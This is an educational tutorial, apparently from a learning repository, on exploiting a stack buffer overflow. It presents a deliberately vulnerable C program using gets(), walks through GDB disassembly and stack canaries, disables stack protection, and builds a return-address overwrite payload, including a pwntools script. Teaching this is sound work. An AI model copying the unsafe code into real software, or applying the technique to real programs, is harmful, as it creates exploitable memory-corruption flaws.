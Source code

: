 # Buffer Overflow
The first module will be about the Buffer Overflow vulnerability, due to its low level of complexity. Lets take a look a the example:

```C
#include <stdio.h>

void secret_func() {
        printf("Shhhhh my secret is...\n");
}

int main() {
        char buf[20];
        printf("I'll tell mine if you tell me yours!\nMy secret is: ");
        gets(buf);

        return 0;
}
```

If we were to compile this example:

```
$ gcc ./example2.c -o example2
[...]
example2.c:(.text+0x50): warning: the `gets' function is dangerous and should not be used.
```

The compiler already warns us about the use of a unsafe function call. This warning is because the `gets` function reads input from the `stdin` until the escape character is typed (ENTER). Lets run the executable:

```
$ ./example

I'll tell mine if you tell me yours!
My secret is: <here you type your secret>
```

For instance, if we type `i like cupcakes` nothing happens. That's because the buffer, in which the string is stored, is 20-byte long so if we type any string that is up to 20 bytes of length, nothing new happens. Lets use `python` to print a 22-byte long string, which we expect to cause some abnormal behavior in our program:

```
$ python3 -c "print(22 * 'A')"
AAAAAAAAAAAAAAAAAAAAAA
```
Then, lets use this 22-byte long string as input in our program:

```
$ ./example2
I'll tell mine if you tell me yours!
My secret is: AAAAAAAAAAAAAAAAAAAAAA
```

As we can see, still nothing new happened. Why? Lets check out our binary in GDB:

```
$ gdb ./example2
```

As we want to understand what's happening, lets dissasemble our `main` function using the commanda `disas main` in gdb. The output in probably difficult to understand, that's because the assembly instrucitons are shown in AT&T syntax. In order to change to Intel syntax, we type `set disassembly-flavor intel`. Now the disassemble of main is clearer:

```
0x00000000000011c0 <+0>:     endbr64
0x00000000000011c4 <+4>:     push   rbp
0x00000000000011c5 <+5>:     mov    rbp,rsp
0x00000000000011c8 <+8>:     sub    rsp,0x20
[...]
0x0000000000001202 <+66>:    mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000001206 <+70>:    xor    rdx,QWORD PTR fs:0x28
0x000000000000120f <+79>:    je     0x1216 <main+86>
0x0000000000001211 <+81>:    call   0x1090 <__stack_chk_fail@plt>
0x0000000000001216 <+86>:    leave
0x0000000000001217 <+87>:    ret
```
The first instruction (up to <+8>) create the `stack-frame` of our function `main`, which represents the place in memory where `main` can store its local variables. As we can see, initially `rbp` is pushed into the stack (which means that the address that rbp was pointing to is pushed into the stack), then `rbp` receives `rsp` (now rbp is pointing to the same address as rsp). Finally, we subtract `0x20` bytes from `rsp` (`rsp` now points to an address 32 bytes higher than the previous).

```
+------------------+
|                  | <- RSP (address X - 32bytes)
|                  |
|      MAIN'S      |
|    STACK-FRAME   |
|                  |
|                  | 
+------------------+
|   OLD RBP VALUE  | <- RBP (address X)
+------------------+
|   OLD RIP VALUE  |
+------------------+
```

Now that we know that the stack-frame is 32 bytes long, try writing 31 A's in the input. You probably got the following error:

```
I'll tell mine if you tell me yours!
My secret is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: terminated
Aborted
```

So, if our stack-frame has 32 bytes of space, why does 31 bytes makes the program stop? Well now comes the seconda part of the disassemble of function `main` showed previously. The OS puts protections into binaries to make then exploit-safe and one of these protections is the `Stack Canary`: basically the OS puts some values on certain locations of our stack-frame and at the end of execution it compares to see if they are still there. When we overflowed the buffer we unintetionally overwrote the stack-canary value, so when the program reached the comparison instruction and the value wasn't the same, it signalled that the stack's integrity had been compromised. As we can see, the program compares the value stored in `[rbp-0x8]`, so if our stack has 32 bytes, but on the eighth is located the stack-canary, we have only 24 bytes to use. Now try typing 24 bytes on the input and you'll see that the program finishes correctly, whereas 25 bytes won't.

But why 32 bytes? That's due to the `stack allignment`: the value stored by `RSP` follows a pattern of increamenting based on a multiple of the size of a `word` in your OS (a performance improvement), which means that, as we are operating in a 64bit machine and a word is equal to 8 bytes, the stack alligment is 16 bytes. 20 is not a multiple of 16, so it has allocated 32 bytes.

In order to be able to exploit this program we must compile it with the GCC flag `-fno-stack-protector`, which will remove the stack-canary from our program. Compile and then try sending 32 bytes as input, you'll see that tha program finishes correctly.

```
$ gcc ./example2.c -o ./example2 -fno-stack-protector
```

Now try sending A LOT of bytes as input:

```
I'll tell mine if you tell me yours!
My secret is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

In contrast with the initial attempts to exploit the program where the OS realized that the "stack was smashed", now our program finishes with a `Segmentation Fault`. This indicates that we tried to access a region in memory which we didn't have permission to. Lets take a closer look using GDB: disassemble main and set a break point on the `ret` instruction. Then, try sending this payload `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM` as input: the program crashes because we overflowed the stack up to the point where we overwrote both the `RBP` registers (check out its value using `info registers`) and the `RIP` register (remember the previous layout of the stack). As we can see, we tried to return to address `0x4c4c4c4c4b4b4b4b`, but that address is not in the text segment of memory, therefore we are not allowed to execute whatever instructions are on that address. In ASCII, character with hex code `4b` is `K` an `4c` is `L`, so  this means that whatever we put in the positions of K and L will be executed. 

So, why don't we try putting `secret_func`'s address? In order to do that, we need to know where that function will be, which means that we'll have to know the address during execution on GDB. Again, lets load our program on GDB and use the command `start` and the `disas secret_func`:

```
(gdb) disas secret_func
Dump of assembler code for function secret_func:
   0x0000555555555189 <+0>:     endbr64
   0x000055555555518d <+4>:     push   rbp
   0x000055555555518e <+5>:     mov    rbp,rsp
   [...]
   0x000055555555519e <+21>:    pop    rbp
   0x000055555555519f <+22>:    ret
```

Now we know that `secret_func` will be place on `0x0000555555555189` address. Due to little endianness we need to write that address reversed. So our payload would look like:

```
echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ\x89\x51\x55\x55\x55\x55" > payload.txt
```

And passing the payload to our program would produce:

```
./example2 < payload.txt
My secret is: Shhhhh my secret is...
Segmentation fault
```

Boooooom we just redirected the flow of execution, that is, `main` was supposed to return somewhere else but we overwrote the return address with `0x555555555189` which is the address of `secret_func`. Therefore when main returned, the instruction pointer (which has the instructions to be executed) executed the instructions of `secret_func`!!!

If we were to do the same but using pwntools, the script would be like:

```python
from pwn import *

p = process("./example2")

p.sendline(b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ\x89\x51\x55\x55\x55\x55')

p.interactive()
```

## Final considerations
The buffer overflow vulnerability can be exploited in many different ways (later we'll see thisa again when playing around with ROP): change the control flow of execution, just like we did in the previous example, or even change the content of a variable. Nowadays its kind of difficult to exploit this on real programs due to the implementation of the stack-canary (maybe if we could leak the canary... but thats another story) and now more than ever, more programmers are adapting to good programming practices (such as ensuring that the buffer won't be overflowed).

For further reading and learning, I highly recommend the [LiveOverflow](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) series of videos about binary exploitation and the initial exercises of the Phoenix module on [Exploit Education](https://exploit.education/).















